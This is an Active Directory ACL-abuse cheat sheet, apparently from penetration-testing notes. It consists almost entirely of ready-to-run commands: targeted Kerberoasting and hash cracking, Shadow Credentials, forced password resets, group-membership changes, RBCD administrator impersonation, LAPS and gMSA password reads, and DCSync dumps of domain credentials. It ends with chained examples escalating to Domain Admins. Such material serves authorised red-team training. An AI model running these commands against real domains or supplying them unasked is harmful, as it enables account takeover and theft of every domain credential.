

# ACLs Exploitation

<figure><figcaption></figcaption></figure>

### GenericWrite on User

**Description:** Ability to update object's attributes, enabling targeted Kerberoasting or Shadow Credentials attacks.

#### Targeted Kerberoasting

**Request TGS for Target User**

```bash
targetedKerberoast.py -d <domain> --dc-ip <ip> \
  -u <username> -p <password> \
  --dc-host <dc> --request-user <target_user>
```

**Crack the Hash with Hashcat**

```bash
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```

**Crack the Hash with John**

```bash
john <hash_file> --wordlist=rockyou.txt
```

#### Shadow Credentials Attack

**Using Password Authentication**

```bash
certipy shadow auto -u <username>@<domain> \
  -p <password> -account <target_user> -dc-ip <ip>
```

**Using Kerberos Authentication**

```bash
certipy shadow auto -username <username>@<domain> -k \
  -account <target_user> -dc-ip <ip>
```

***

### GenericALL

**Description:** Full rights to the object, allowing password changes, group membership modifications, and RBCD attacks.

#### Change User Password

**Using bloodyAD**

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  set password <target_user> <new_password>
```

**Using net rpc (with Hash)**

```bash
net rpc password '<target_user>' '<new_password>' \
  -U '<domain>'/'<username>'%'<ntlm_hash>' \
  -S '<dc>' --pw-nt-hash
```

**Using net rpc (with Password)**

```bash
net rpc password '<target_user>' '<new_password>' \
  -U '<domain>'/'<username>'%'<password>' \
  -S '<dc>'
```

#### Add User to Group

**Using net rpc**

```bash
net rpc group addmem <target_group> <username> \
  -U <domain>/<username> -S <dc>
```

**Using bloodyAD**

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  add groupMember <target_group> <target_username>
```

#### Resource-Based Constrained Delegation (RBCD)

**Configure RBCD**

```bash
rbcd.py -delegate-from <machine_name> \
  -delegate-to <target> -dc-ip <ip> \
  -action write '<domain>/<username>:<password>'
```

**Request Service Ticket**

```bash
impacket-getST -spn 'cifs/<dc>' \
  -impersonate administrator -dc-ip <ip> \
  '<domain>/<machine_name>:<password>'
```

**Use the Ticket**

```bash
export KRB5CCNAME=administrator.ccache
```

***

### GenericALL on OU

**Description:** Full control over an Organizational Unit, allowing inheritance-based attacks.

#### Grant Full Control on OU

```bash
impacket-dacledit -action 'write' -rights 'FullControl' \
  -inheritance -principal <username> \
  -target-dn '<OU_DN>' <domain>/<username>:<password>
```

**Example OU DN:**

```
OU=IT,DC=contoso,DC=local
```

***

### ForceChangePassword

**Description:** Ability to reset a user's password without knowing the current password.

#### Using net rpc

```bash
net rpc password <target_user> <new_password> \
  -U "<domain>"/"<username>"%"<password>" \
  -S <dc>
```

#### Using bloodyAD

```bash
bloodyAD --host <ip> -d <dc> \
  -u <username> -p <password> \
  set password <target_username> <new_password>
```

#### Using rpcchangepwd.py

```bash
python rpcchangepwd.py <domain>/<username>:<password>@<ip> \
  -newpass <new_password>
```

#### Using NetExec Module

```bash
nxc smb <domain> -u <username> -p <password> \
  -M change-password \
  -o USER='<target_username>' NEWPASS='<new_password>'
```

***

### AddMember

**Description:** Permission to add members to a group without being a member yourself.

#### Using net rpc

```bash
net rpc group addmem <target_group> <username> \
  -U <domain>/<username> -S <dc>
```

#### Using bloodyAD

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  add groupMember <target_group> <user_to_add>
```

***

### AddSelf

**Description:** The user has the ability to add themselves to a target group.

#### Add Self to Group

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  add groupMember <target_group> <username>
```

***

### WriteOwner

**Description:** Ability to change the owner of an object, then grant yourself full control.

#### Change Object Owner

```bash
impacket-owneredit -action write \
  -new-owner <username> \
  -target <target_object> \
  <domain>/<username>:<password>
```

#### Grant Full Control

```bash
impacket-dacledit -action 'write' -rights 'FullControl' \
  -principal <username> \
  -target-dn '<target_dn>' \
  '<domain>/<username>:<password>'
```

#### Alternative: Grant WriteMembers Only

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' \
  -principal <username> \
  -target-dn '<target_dn>' \
  '<domain>/<username>:<password>'
```

#### Add User to Group

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  add groupMember <target_group> <username>
```

***

### WriteSPN

**Description:** Ability to write to the "servicePrincipalName" attribute, enabling Kerberoasting.

#### Set Service Principal Name

```bash
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  set object <target_user> servicePrincipalName \
  -v '<domain>/meow'
```

#### Request Service Ticket (Method 1)

```bash
impacket-GetUserSPNs <domain>/<username>:<password> \
  -dc-ip <ip> -request
```

#### Request Service Ticket (Method 2)

```bash
targetedKerberoast.py -d <domain> --dc-ip <ip> \
  -u <username> -p <password> \
  --dc-host <dc> --request-user <target_user>
```

#### Crack the Hash

```bash
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```

***

### AddKeyCredentialLink

**Description:** Ability to add Key Credential Link for Shadow Credentials attack (msDS-KeyCredentialLink attribute).

#### Using pywhisker

**Add Key Credential**

```bash
pywhisker.py -d <domain> --dc-ip <ip> \
  -u <username> -p <password> \
  --target <target_user> --action add
```

**Request TGT with Certificate**

```bash
gettgtpkinit.py -cert-pfx <file.pfx> \
  -pfx-pass <pfx_password> \
  <domain>/<target_user> ticket.ccache \
  -dc-ip <ip>
```

**Extract NT Hash**

```bash
getnthash.py <domain>/<target_user> -k <key> -dc-ip <ip>
```

#### Using Certipy (Automated)

```bash
certipy shadow auto -u <username>@<domain> \
  -p <password> -account <target_user> -dc-ip <ip>
```

***

### ReadLAPSPassword

**Description:** Permission to read Local Administrator Password Solution (LAPS) passwords.

#### Read LAPS Password

```bash
nxc smb <target> -u <username> -p <password> --laps
```

#### Using Alternative Tools

```bash
nxc ldap <target> -u <username> -p <password> --laps
```

***

### ReadGMSAPassword

**Description:** Permission to read Group Managed Service Account (gMSA) passwords.

#### Read gMSA Password

```bash
nxc ldap <target> -u <username> -p <password> --gmsa
```

#### Decrypt gMSA Password

```bash
nxc ldap <target> -u <username> -p <password> \
  --gmsa-decrypt-lsa <gmsa_account>
```

***

### DCSync

**Description:** Replication permissions (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) allowing domain credential dumping.

#### Using impacket-secretsdump

**With Password**

```bash
impacket-secretsdump <domain>/<username>:<password>@<domain>
```

**With NTLM Hash**

```bash
impacket-secretsdump <domain>/<username>@<domain> \
  -hashes :<ntlm_hash>
```

**With Kerberos Ticket**

```bash
impacket-secretsdump <dc> -k
```

#### Using NetExec

**With Password**

```bash
nxc smb <target> -u <username> -p <password> --ntds
```

**With Kerberos Cache**

```bash
nxc smb <target> --use-kcache --ntds
```

#### Extract Specific User

```bash
impacket-secretsdump <domain>/<username>:<password>@<dc> \
  -just-dc-user <target_user>
```

#### Export to File

```bash
impacket-secretsdump <domain>/<username>:<password>@<dc> \
  -outputfile dcsync_output
```

***

### ACL Enumeration Techniques

#### Using BloodHound

```bash
# Collect data
bloodhound-python -d <domain> -u <username> -p <password> \
  -dc <dc_ip> -c All -ns <dc_ip>

# Using SharpHound
SharpHound.exe -c All --zipfilename output.zip
```

#### Using PowerView

```powershell
# Find interesting ACLs
Find-InterestingDomainAcl -ResolveGUIDs

# Get ACLs for specific object
Get-ObjectAcl -SamAccountName <username> -ResolveGUIDs

# Find modifiable objects
Invoke-ACLScanner -ResolveGUIDs
```

#### Using bloodyAD

```bash
# Get object ACLs
bloodyAD --host <dc> -d <domain> \
  -u <username> -p <password> \
  get object <target_object> --attr ntSecurityDescriptor
```

***

### Attack Chain Examples

#### Example 1: GenericWrite → Targeted Kerberoast → Password Crack

```bash
# 1. Set SPN on target user
bloodyAD --host dc -d domain -u attacker -p pass \
  set object victim servicePrincipalName -v 'domain/svc'

# 2. Request service ticket
targetedKerberoast.py -d domain --dc-ip ip \
  -u attacker -p pass --request-user victim

# 3. Crack hash
hashcat -m 13100 victim.hash rockyou.txt --force
```

#### Example 2: ForceChangePassword → Lateral Movement

```bash
# 1. Change victim password
nxc smb domain -u attacker -p pass \
  -M change-password -o USER='victim' NEWPASS='NewPass123!'

# 2. Authenticate as victim
nxc smb targets.txt -u victim -p 'NewPass123!' -x whoami
```

#### Example 3: WriteOwner → GenericAll → DCSync

```bash
# 1. Change owner
impacket-owneredit -action write -new-owner attacker \
  -target 'Domain Admins' domain/attacker:pass

# 2. Grant full control
impacket-dacledit -action write -rights FullControl \
  -principal attacker -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' \
  domain/attacker:pass

# 3. Add to group
bloodyAD --host dc -d domain -u attacker -p pass \
  add groupMember 'Domain Admins' attacker

# 4. DCSync
impacket-secretsdump domain/attacker:pass@domain
```

#### Example 4: GenericAll on Computer → RBCD → Admin Access

```bash
# 1. Create machine account
addcomputer.py -computer-name 'EVIL$' -computer-pass 'Password123' \
  -dc-ip ip domain/attacker:pass

# 2. Configure RBCD
rbcd.py -delegate-from 'EVIL$' -delegate-to victim \
  -dc-ip ip -action write domain/attacker:pass

# 3. Request ticket
impacket-getST -spn cifs/victim -impersonate administrator \
  -dc-ip ip domain/'EVIL$':'Password123'

# 4. Use ticket
export KRB5CCNAME=administrator.ccache
impacket-psexec -k -no-pass victim
```

***

***

### Tool Installation

#### Impacket Suite

```bash
pip3 install impacket
```

#### Certipy

```bash
pip3 install certipy-ad
```

#### bloodyAD

```bash
pip3 install bloodyAD
```

#### NetExec

```bash
pipx install git+https://github.com/Pennyw0rth/NetExec
```

#### PyWhisker

```bash
git clone https://github.com/ShutdownRepo/pywhisker
pip3 install -r requirements.txt
```

#### BloodHound

```bash
pip3 install bloodhound
```

***

***
